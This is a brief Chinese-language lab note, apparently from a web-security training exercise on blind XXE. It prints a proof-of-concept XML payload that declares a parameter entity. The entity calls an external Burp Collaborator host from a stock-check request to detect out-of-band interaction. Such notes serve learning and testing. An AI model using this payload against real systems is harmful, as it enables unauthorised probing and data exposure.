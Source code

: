 和6类似

只不过换用%来代替&

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://t93h08q29o1vsw03hbagwf6q6hc70w.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



burp collaborator客户端:

![](images/6A37D025A7F947ADADF228D70BF6CCDCclipboard.png)


